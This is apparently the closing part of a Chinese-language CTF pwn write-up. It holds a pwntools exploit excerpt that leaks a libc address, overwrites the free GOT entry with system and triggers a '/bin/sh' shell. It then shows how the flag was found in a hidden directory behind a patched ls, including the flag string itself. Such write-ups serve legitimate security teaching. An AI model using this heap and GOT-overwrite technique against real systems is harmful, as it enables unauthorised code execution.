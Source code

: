 ```python
    payload += '\x00' * (0xf8-0x20)
    payload += p64(i64_max)
    p.sendafter('name: ', payload)

    destory('world', False)
    p.recvuntil('world.\n')
    l.address = u64(p.recv(6)+'\0\0') - l.sym.puts
    success('libc_address -> %s' % hex(l.address))

    system = l.sym.system
    success('system -> %s' % hex(system))

    create(str(free_got - 0x20 - 0x6021c0), 'cccc', False)

    payload  = 'a'*8
    payload += p64(system).replace(b'\x00',b'\t')[:-1]
    create(0x88, payload)

    create(0x18, '/bin/sh')
    destory('/bin/sh')
```



## 获取 flag

> ```shell
> $ ls -al
> total 64
> drwxr-xr-x 2 root  root  ?  4096 Nov 18 12:36 bin
> lrwxrwxrwx 1 root  root  ?     1 Nov 18 16:35 death -> /
> drwxr-xr-x 2 root  root  ?  4096 Nov 17 10:06 dev
> drwxr-xr-x 2 root  root  ?  4096 Nov 18 12:20 etc
> drwxr-xr-x 3 root  root  ?  4096 Nov 18 12:23 lib
> drwxr-xr-x 2 root  root  ?  4096 Nov 17 10:06 lib64
> drwxr-x--- 2 root  root  ? 20480 Nov 18 16:34 life
> -r-xr-x--- 1 gamma gamma ? 10528 Nov 18 16:35 main
> -rwsr-sr-x 1 root  root  ?  8704 Nov 18 16:35 next
> ```

进入到最后的目录之后，给了一个 life 文件夹，里面是一些假的 flag，还有一个 death 软链接。

细心一点可以注意到，使用 `ls -al` 命令的时候，当前目录 `.` 和 上级目录 `..` 都没有显示出来，原因是 ls 文件经过 patch 把显示隐藏文件的功能去除了。

> ```shell
> $ cat ...
> cat: ...: Is a directory
> $ cat .../.*
> cat: .../.: Is a directory
> cat: .../..: Is a directory
> flag{b7a0ea5c-90a9-4a9c-8e1f-2c78ed170a3c}
> ```
